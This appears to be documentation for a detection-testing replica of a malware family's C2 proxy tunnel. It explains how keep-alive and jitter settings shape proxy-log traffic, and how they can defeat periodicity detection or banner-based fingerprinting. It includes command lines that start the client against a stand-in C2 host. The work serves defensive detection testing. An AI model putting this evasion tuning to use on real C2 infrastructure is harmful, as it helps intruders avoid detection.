


# The measurement

## The knob, and why its effect is a step

`TIMEOUT_FOR_SOCKET_OPERATION` is 120 seconds in the original, and it applies
to the command connection's two-byte read. So the server's keep-alive
interval decides the shape of everything a proxy log records:

| `KEEPALIVE` | What the client does | What a proxy log shows |
|---|---|---|
| below 120 s | holds one TCP connection open | one CONNECT, one byte count, **no cadence** |
| `0`, or above 120 s | read deadline expires, reconnects | **a new connection every ~120 s** |



Two edges in that diagram carry the whole experiment design:

- **The self-loop is the held shape.** A keep-alive more often than every
  120 s keeps the client in `Waiting` forever, on one TCP connection.
- **The edge back to `Connecting` is the cadence**, and it is the only one
  the server can cause.
- **The edge to `[*]` is not a cadence**, which is the asymmetry that is easy
  to miss.

**The server cannot pick any other cadence.** If it closes a command
connection, the original client does not reconnect: it reads zero bytes,
`struct.unpack` raises, and the process exits. Only a *timeout* restarts it.
A cadence other than ~120 s therefore has to come from the client's
`--timeout`, which this exposes and labels a deviation — the client prints a
warning when it is not 120.

### Jitter, and why it cannot live on the server

The same asymmetry decides where jitter has to go. The reconnect period *is*
the client's read deadline, so only the client can spread it. A jitter knob
on the server would have described a control it does not have: the server
does not choose the period at all.

`client.py --jitter FRACTION` spreads the deadline uniformly over
`timeout × (1 ± FRACTION)`:

| `--jitter` | Period at a 120 s timeout | Coefficient of variation |
|---|---|---|
| `0` (the original) | a flat 120 s | ~0.00 — a machine on a timer |
| `0.15` | 102–138 s | ~0.09 |
| `0.35` | 78–162 s | ~0.17 |
| `0.60` | 48–192 s | ~0.30 |

That is the dial for the question a periodicity detection actually poses:
**how much jitter does it tolerate before it stops firing?** Run the same
shape at rising jitter and read the threshold off the ledger. Measured here
at `0.35`: gaps of 7.9, 9.1, 7.7, 8.4, 11.8, 8.4 and 7.2 seconds against a
10-second timeout — CV 0.161, and the verdict moves from "a timer" to
"periodic with some jitter".

**The original has no jitter**, so a CV above zero is yours and the finding
has to say it was set. The client warns on start-up and the value goes in the
ledger's `client-start` line.

Note the third edge in the diagram too: **a relay session resets the read
deadline**, because reading the announced port is a successful read. So a run
with traffic in it has looser cadence than the knob alone predicts. The
dashboard reports the measured jitter next to the predicted shape for exactly
this reason.

Measured here with `--timeout 5` to keep a test short: four connections in
eighteen seconds, each from a different local port, three timeouts, and the
server reaping each one after five seconds. That is the shape, scaled down.

## The knob also decides whether the host is findable

This came out of building the dashboard's self-probe, and it is not in any of
the write-ups because the real operators never had a reason to turn the knob
off.

The `00 00` that a bare probe to the command port gets back — the trait that
let researchers enumerate this family across hosting providers — **is the
keep-alive leaking.** There is no separate banner. So a server that never
sends a keep-alive never leaks one:

| `KEEPALIVE` | A proxy log shows | A bare probe gets |
|---|---|---|
| below 120 s | one held connection, no cadence | `00 00` — **the host is fingerprintable** |
| `0` | a reconnect every ~120 s, near-zero jitter | **nothing** — silent to a banner hunt |

The two detection routes are therefore on opposite ends of one dial, and
neither position exercises both:

- `KEEPALIVE=0` is the easy target for a **periodicity** detection and
  invisible to a **banner** hunt.
- `KEEPALIVE=60` defeats periodicity entirely and is exactly what the Censys
  query in [the provenance](provenance.md) finds.

Which means a run in one position is not a test of the other, and a report
that says "our detection found it" has to say which position it found. The
dashboard's fingerprint panel probes the host and says which of the two you
are currently running — see [the dashboard](dashboard.md).

**For the real infrastructure this settles a small question**: every host
InfoGuard found answered with `00 00`, so every one of them was running with
a keep-alive — that is, in the held-connection shape, the one with no cadence
at all. The fleet was configured the way that beats the commoner detection.

## The proxy is not optional

The original dials its C2 directly and cannot cross a proxy. `--proxy` is
added here, and for this measurement it is **required rather than optional**:
a detection that reads proxy logs sees nothing at all from a host with direct
egress. The proxy leg is transport only — the bytes inside the tunnel are
unchanged, which is what keeps this faithful where the measurement cares.

Where a host reaches an authenticating corporate proxy through a local relay,
that relay is the address to give rather than the proxy itself:

```
PROXY=127.0.0.1:3128 ./client/start-client.sh c2.example.com
```

## What to expect of a periodicity detection

Worth settling before the run rather than after, because "nothing fired" is a
result and not a failed experiment:

- With a keep-alive **under** 120 s there is one long-lived CONNECT and no
  periodicity. A detection that bins per-connection events has nothing to
  work with. This is the far end of a spectrum worth knowing about: at the
  same nominal check-in rate, an agent that pools one socket produces a
  single long session while one that opens a connection per message produces
  thousands of short ones — and this tunnel is the extreme of the first kind.
- With a keep-alive of **0** there is a reconnect every ~120 s with
  near-zero jitter. That is about as easy a target as a periodicity
  detection ever gets, and if it does not fire the finding is about the
  detection rather than about the tunnel.
- The relay connections are driven by your hand on the SOCKS port. They are
  bursty, not periodic, and they are the part that carries volume.

So run both shapes. The pair is the result; either alone is an anecdote.

## Ground truth

Both halves write a ledger — one line per connection, keep-alive, relay and
session, ISO-8601 UTC:

```
server/server-ledger.log
client/client-ledger.log
```

The server's `session-close` line carries the byte counts in each direction
and what the first bytes suggested the protocol was — the facts a
volume-based detection would have had. **The payload itself is never
recorded**, with or without `--tap`: the relays carry the traffic of the
network under test, and the ledger is the file that gets attached to a
report. The tap keeps a bounded sample in memory instead, and
[the dashboard](dashboard.md) says what it does with it.

Compare a detection's report against **those**, not against its own
timestamps. A field named for a sleep interval or a jitter does not reliably
hold one: a "jitter" can turn out to be the largest gap between contacts, and
an "average sleep" a span divided by a count. A ledger is how you notice.

The ledger is also what the operator view reads, so anything visible there
can be found in the file a finding cites. See [the dashboard](dashboard.md).

## When a proxy ends the tunnel, and how long it lived

A CONNECT proxy may end a tunnel after a fixed time, however busy or quiet it
is. When it does, the client reads an error or a zero-byte close, treats it
as the server hanging up, and exits — the original behaves the same way, and
that is reproduced rather than fixed. Nothing starts it again.

`client/supervise.py` is that missing outside trigger. It sits outside the
client on purpose: the original relies on something external to start it
rather than on reconnect logic of its own, and keeping the client untouched
keeps it faithful.

```
./client/supervise.py --ledger client/client-ledger.log -- \
    c2.example.com:443 --proxy 127.0.0.1:3128 --ledger client/client-ledger.log
```

Everything after `--` is the client's own argument list. Pointing both
`--ledger` options at one file puts the client's events and the supervisor's
in a single timeline.



Each exit is recorded as `child-exit` with `lifetime_seconds`, the time the
previous run lived. **That is the measurement:** a proxy with a fixed limit
produces the same lifetime on every restart, give or take the seconds it
takes to be noticed, and a run that dies at scattered ages was not ended by
a timer. Five short-lived runs in a row stop the supervisor rather than
hammer a proxy that is refusing.
